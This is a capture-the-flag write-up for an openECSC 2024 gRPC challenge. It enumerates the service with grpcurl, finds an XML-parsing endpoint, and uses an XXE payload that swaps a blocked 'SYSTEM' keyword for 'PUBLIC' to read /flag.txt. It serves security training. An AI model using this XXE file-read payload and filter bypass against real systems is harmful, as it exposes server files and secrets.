 # Grand Resort for Pwning Cats

## Description
```
Welcome to the Grand Resort for Pwning Cats. 
Are you ready to become the cutest pwner kitten at our establishment?

The flag is stored in /flag.txt

Site: http://grandresort.challs.open.ecsc2024.it
```

## Provided Files
```
- backend.zip
```

## Writeup

Looking through the provided files we can find `main.go` in the backend directory. <br/>
```go
package main

import (
	"os"
	"log"
	"net"

	"google.golang.org/grpc"
	"google.golang.org/grpc/reflection"

	pb "grand-resort/reception/service"
)

type receptionServer struct {
	pb.UnimplementedReceptionServer
}

// Endpoints' definition are in endpoints.go, which is not provided... eheheh not so easy now, uh?

func main() {
	flag := os.Getenv("FLAG")
	err := os.WriteFile("/flag.txt", []byte(flag), 0644)
	if err != nil {
		panic(err)
	}

	lis, err := net.Listen("tcp", "0.0.0.0:38010")
	if err != nil {
		log.Fatalf("failed to listen: %v", err)
	}

	grpcServer := grpc.NewServer()
	pb.RegisterReceptionServer(grpcServer, &receptionServer{})
	reflection.Register(grpcServer)
	grpcServer.Serve(lis)
}
```

We can simply connect to the backend service using a tool like `grpcurl`. <br/>
```sh
$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 list

GrandResort.Reception
grpc.reflection.v1.ServerReflection
grpc.reflection.v1alpha.ServerReflection
```

Using the same approach we can check the single endpoints. <br/>
```sh
$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.Reception

GrandResort.Reception is a service:
service Reception {
  rpc bookRoom ( .GrandResort.BookingInfo ) returns ( .GrandResort.BookingConfirm );
  rpc createRoom73950029 ( .GrandResort.RoomRequestModel ) returns ( .GrandResort.RoomCreationResponse );
  rpc createRoomRequestModelc21a7f50 ( .google.protobuf.Empty ) returns ( .GrandResort.RoomRequestModel );
  rpc listRooms ( .google.protobuf.Empty ) returns ( .GrandResort.RoomList );
}

$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe grpc.reflection.v1.ServerReflection

grpc.reflection.v1.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1.ServerReflectionResponse );
}

$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe grpc.reflection.v1alpha.ServerReflection

grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```

Now we can check the single methods of the endpoints. <br/>
```sh
$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.Reception.bookRoom
GrandResort.Reception.bookRoom is a method:
rpc bookRoom ( .GrandResort.BookingInfo ) returns ( .GrandResort.BookingConfirm );

$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.Reception.createRoom73950029
GrandResort.Reception.createRoom73950029 is a method:
rpc createRoom73950029 ( .GrandResort.RoomRequestModel ) returns ( .GrandResort.RoomCreationResponse );

$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.Reception.createRoomRequestModelc21a7f50
GrandResort.Reception.createRoomRequestModelc21a7f50 is a method:
rpc createRoomRequestModelc21a7f50 ( .google.protobuf.Empty ) returns ( .GrandResort.RoomRequestModel );

$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.Reception.listRooms
GrandResort.Reception.listRooms is a method:
rpc listRooms ( .google.protobuf.Empty ) returns ( .GrandResort.RoomList );
```

We can also use the methods. <br/>
```sh
$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/listRooms
{
  "rooms": [
    {
      "id": "0cWHPVtqYK1gq34IUieZAYxE",
      "Name": "The cheap one",
      "description": "Oh, you want to save money? look here! what a MEAWESOME room, please be careful about rats and bugs pls... they're really huge KEK.",
      "price": 1
    },
    {
      "id": "uiVYozzRgRXF0CyMkfdwCGrI",
      "Name": "The regular one",
      "description": "This is our standard room, good price for non-demanding guests, PURRFECT if you want to optimize value for money :)",
      "price": 50
    },
    {
      "id": "47aOlxCtCvBYKNrFdkwtHRsl",
      "Name": "The luxury one",
      "description": "MEAWOUUUUUUUU, you're interested in a very luxury experience! no problem, we have the room for you... if you have enough money ;)",
      "price": 150
    },
    {
      "id": "IQXygEah2dI37aOqeBEVYfQ1",
      "Name": "Royal room",
      "description": "MEAWTASTIC your majesty! we have the right room to drain your wallEHM... to meet your high luxury requirements :3",
      "price": 30000
    }
  ]
}
``` 

This endpoint is already used in the application and doesn't really seem interesting, but the `createRoom73950029` method could be interesting. <br/>
```sh
$ grpcurl -plaintext -d '{"RoomRequestModel": "5"}' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "Error while parsing: failed to create parse input: failed to read document from memory: Entity: line 1: parser error : Start tag expected, '\u003c' not found"
}
```

The error essentially told me that the input had to be in `XML` format. <br/>
```sh
$ grpcurl -plaintext -d '{"RoomRequestModel": "<element>5</element>"}' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "You requested the creation of "
}
```

Seeing the response with `of ` made me think that if we find the correct `XML` object we can probably get our input in the response which may allow us to leak `/flag.txt`. <br/>

To get more detailed information about the methods we can use `grpcurl` again. <br/>
```sh
$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.RoomRequestModel
GrandResort.RoomRequestModel is a message:
message RoomRequestModel {
  string RoomRequestModel = 1;
}

$ grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe GrandResort.RoomCreationResponse
GrandResort.RoomCreationResponse is a message:
message RoomCreationResponse {
  string RoomCreationResponse = 1;
}
```

After not being able to find a lead I turned to another method which revealed valuable `XML-syntax`. <br/>
```sh
$ grpcurl -plaintext -d '{}' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception.createRoomRequestModelc21a7f50

{
  "RoomRequestModel": "\u003c?xml version=\"1.0\" encoding=\"UTF-8\"?\u003e\n\u003croom\u003e\n    \u003cname\u003eRoomName\u003c/name\u003e\n    \u003cprice\u003e$100.0\u003c/price\u003e\n    \u003cdescription\u003eRoomDescription\u003c/description\u003e\n    \u003csize\u003e30 m2\u003c/size\u003e\n\u003c/room\u003e"
}
```

Finding the correct syntax I tried to use it on the same method. <br/>
```xml
<room><name>Yeet</name><price>$100</price><description>Flag_Pls</description><size>m2</size></room>
```

As this didn't work out I tried the syntax on the other room-creation-method which actually worked. <br/>
```sh
`$ grpcurl -plaintext -d '{"RoomRequestModel": "<room><name>Tes1tng</name><price>$100.0</price><description>Just Testing</description><size>30 m2</size></room>"}' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception.createRoom73950029

{
  "RoomCreationResponse": "You requested the creation of Tes1tng"
}
```

Seeing that I was able to pass something in the request which is also used in the response I thought about a possible `XXE` vulnerability. Reason for `XXE` being the use of `XML` and the return of object `<name></name>`. <br/>
Knowing this I tested a possible `XXE` exploit to read `/flag.txt`. <br/>
```sh
$ grpcurl -plaintext -d '{"RoomRequestModel": "<!DOCTYPE room [<!ENTITY xxe SYSTEM \"file:///flag.txt\">]><room><name>&xxe;</name><price>$100.0</price><description>RoomDescription</description><size>30 m2</size></room>"}' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception.createRoom73950029

{
  "RoomCreationResponse": "Error: you can't use the S-word!"
}
```

Seeing that `SYSTEM` is not allowed I tried to encode it which didn't work so I searched for other options. <br/>
Coming accross this [article](https://www.appsecmonkey.com/blog/xxe) I found that `SYSTEM` can be exchanged with `PUBLIC` and some other minor change. <br/>
```sh
$ grpcurl -plaintext -d '{"RoomRequestModel": "<!DOCTYPE room [<!ENTITY xxe PUBLIC \"\" \"/flag.txt\">]><room><name>&xxe;</name><price>$100.0</price><description>RoomDescription</description><size>30 m2</size></room>"}' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception.createRoom73950029

{
  "RoomCreationResponse": "You requested the creation of openECSC{UWu_r3fl3ktIng_K17T3n5_uWU_24218e56}"
}
```

Executing `XXE` successfully and obtaining the flag concludes this writeup. 